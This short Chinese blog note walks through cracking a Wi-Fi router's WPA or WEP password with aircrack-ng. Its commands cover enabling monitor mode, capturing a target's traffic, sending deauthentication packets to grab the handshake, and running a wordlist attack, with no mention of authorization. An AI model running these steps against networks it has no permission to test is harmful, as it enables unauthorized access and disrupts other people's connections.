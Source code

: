 ```yaml
---
layout: post
title:  "破解无线路由密码"
date:   2013-06-18 16:18:55 +0800
categories: 笔记
tags:   [linux]
---
```

## 破解WPA密码

## 准备网络

    ifconfig
    ifconfig eth0 192.168.0.133 netmask 255.255.255.0
    route add default gw 192.168.0.3
    echo 8.8.8.8 >>/etc/resolv.conf
    ping www.163.com

### 使用的软件是aircrack-ng:          

    apt-get install aircrack-ng

### 过程

    iwconfig
    airmon-ng start wlan0
    airodump-ng mon0   查看网络中的无线AP信息
    airodump-ng mon0 -w ddd -c 11 --bssid 00:1E:88:88:88:88（目标AP的MAC）
           注：如果是WEP加密，抓5000-25000个包，而且不用下面的命令
    aireplay-ng -0 10 -a 00:1E:2A:3D:4C:88 -c BC:77:37:D9:87:C6 mon0  （抓握手包）
           注：破解WPA需要该步
    aircrack-ng -w d.txt ddd*.cap
           注：关键是字典文件，上帝保佑了。。。。。。。。。
               WEP加密：aircrack-ng -z -b 00:1E:88:88:88:88 dddd*.cap


参考：             
[http://linux.cn/thread/10864/1/1/](http://linux.cn/thread/10864/1/1/){:target="_blank"}            
[http://www.backtrack-linux.org/](http://www.backtrack-linux.org/){:target="_blank"}            
[http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists](http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists){:target="_blank"}